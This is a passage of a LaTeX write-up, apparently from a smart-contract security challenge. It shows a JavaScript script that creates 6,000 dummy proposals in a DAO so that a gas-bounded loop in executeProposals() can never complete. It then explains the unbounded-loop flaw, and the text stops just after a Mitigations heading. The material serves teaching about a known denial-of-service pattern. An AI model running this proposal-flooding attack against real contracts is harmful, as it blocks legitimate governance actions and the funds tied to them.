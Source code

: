 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// Create many proposals to cause a DoS attack
console.log("Creating many proposals to trigger a DoS attack...");

// Generate descriptions programmatically
const generateProposalDescription = (index) =>
    `Anti-Cat Proposal #${index}!`;

// Empty calldata for the proposals
const emptyCalldata = "0x";

// The number of proposals needed to cause a DoS
const NUM_PROPOSALS = 6000;
const BATCH_SIZE = 500;

console.log(`Adding ${NUM_PROPOSALS} proposals in batches of ${BATCH_SIZE}...`);

for (let batchStart = 0; batchStart < NUM_PROPOSALS; batchStart += BATCH_SIZE) {
    for (let i = 0; i < BATCH_SIZE && batchStart + i < NUM_PROPOSALS; i++) {
        const description = generateProposalDescription(batchStart + i);

        // Create a proposal with minimum value (to player address)
        await dao.connect(player).createProposal(
            description,
            player.address,
            1, // Minimal amount
            emptyCalldata
        );
    }

    const currentCount = await dao.getProposalCount();
    console.log(`Progress: ${currentCount} proposals created so far`);
}
\end{verbatim}
\end{minipage}

After adding 6,000 proposals to the DAO, any attempt to call \texttt{executeProposals()} will exceed the block gas limit, making it impossible to execute the cat charity proposal. The attack doesn't even need these proposals to pass - simply having a large number of proposals forces the \texttt{getWinningProposals()} function to iterate through all of them, requiring too much gas.

\subsection*{Mitigations}

To prevent this type of attack, smart contracts should avoid unbounded loops and implement proper pagination:
\end{document}
